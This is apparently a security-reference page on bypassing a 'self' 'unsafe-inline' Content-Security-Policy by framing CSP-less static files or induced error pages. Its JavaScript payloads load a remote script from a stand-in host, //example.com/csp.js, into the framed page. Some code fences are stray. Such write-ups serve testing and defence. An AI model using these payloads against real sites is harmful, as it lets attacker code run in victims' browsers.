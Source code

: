 # CSP Bypass via Self + Unsafe Inline with Iframes


A configuration such as:

```
Content-Security-Policy: default-src 'self' 'unsafe-inline';
```
```
Prohibits usage of any functions that execute code transmitted as a string. For example: `eval, setTimeout, setInterval` will all be blocked because of the setting `unsafe-eval`

Any content from external sources is also blocked, including images, CSS, WebSockets, and, especially, JS

## Via Text & Images

It's observed that modern browsers convert images and texts into HTML to enhance their display (e.g., setting backgrounds, centering, etc.). Consequently, if an image or text file, such as `favicon.ico` or `robots.txt`, is opened via an `iframe`, it's rendered as HTML. Notably, these pages often lack CSP headers and may not include X-Frame-Options, enabling the execution of arbitrary JavaScript from them:

```javascript
frame = document.createElement("iframe")
frame.src = "/css/bootstrap.min.css"
document.body.appendChild(frame)
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
```
## Via Errors

Similarly, error responses, like text files or images, typically come without CSP headers and might omit X-Frame-Options. Errors can be induced to load within an iframe, allowing for the following actions:

```javascript
// Inducing an nginx error
frame = document.createElement("iframe")
frame.src = "/%2e%2e%2f"
document.body.appendChild(frame)

// Triggering an error with a long URL
frame = document.createElement("iframe")
frame.src = "/" + "A".repeat(20000)
document.body.appendChild(frame)

// Generating an error via extensive cookies
for (var i = 0; i < 5; i++) {
  document.cookie = i + "=" + "a".repeat(4000)
}
frame = document.createElement("iframe")
frame.src = "/"
document.body.appendChild(frame)
// Removal of cookies is crucial post-execution
for (var i = 0; i < 5; i++) {
  document.cookie = i + "="
}
```
```
After triggering any of the mentioned scenarios, JavaScript execution within the iframe is achievable as follows:

```javascript
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```
```
## References

- [[https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/|https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/]]



